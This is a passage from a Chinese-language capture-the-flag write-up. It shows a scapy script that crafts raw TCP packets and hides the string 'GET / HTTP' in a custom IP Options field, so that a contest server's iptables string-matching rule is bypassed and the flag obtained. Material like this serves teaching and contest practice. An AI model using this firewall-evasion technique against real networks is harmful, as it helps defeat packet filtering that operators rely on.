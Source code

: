 一开始我还是在macOS上跑这个脚本的，抓包发现总会有一个RST发出去，但是搜索发现在macOS上好像没什么办法可以阻挡他。于是就换了 Arch 用 iptables reject 掉RST包，就拿到flag了。

第三问：

分析ip桌子指令，发现他要求在前 50 bytes 存在一个长度为 10 的 `GET / HTTP` 字符。查看RFC发现可以在 IP Options 字段来放下这一部分，于是对上面的代码稍作修改可得：

```python
from scapy.all import *

# 设置目标IP地址和端口
target_ip = "202.38.93.111"  # 替换为你的目标IP
target_port = 18082

# 构建一个IP包
ip = IP(dst=target_ip)

class IPOption_HTTP_GET(IPOption):
    name = "GETHTTP"
    option = 99  # 自定义选项类型，选择一个未被使用的值
    fields_desc = [
        ByteEnumField("option", 99, {99: "GETHTTP"}),
        ByteField("length", 12),  # 类型(1) + 长度(1) + 数据(10)
        StrFixedLenField("data", b"\x00" * 10, 10),  # 10字节的自定义数据
    ]

ip.options = IPOption_HTTP_GET(data=b"GET / HTTP")
print(ip.show())
# 构建一个TCP包
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")

# 发送TCP握手包
tcp_synack = sr1(ip / tcp)

# 构建HTTP GET请求
# get_request = "GET / HTTP"
get_request = (
    "POST / HTTP/1.1\r\nHost: "
    + target_ip
    + "\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n{TOKEN}\r\n"
)

# 设置TCP响应和ACK
tcp = TCP(
    sport=tcp_synack[TCP].dport,
    dport=target_port,
    flags="A",
    seq=tcp_synack[TCP].ack,
    ack=tcp_synack[TCP].seq + 1,
)

# 发送HTTP GET请求
send(ip / tcp / Raw(load=get_request))
```


[1]: 一共132560个解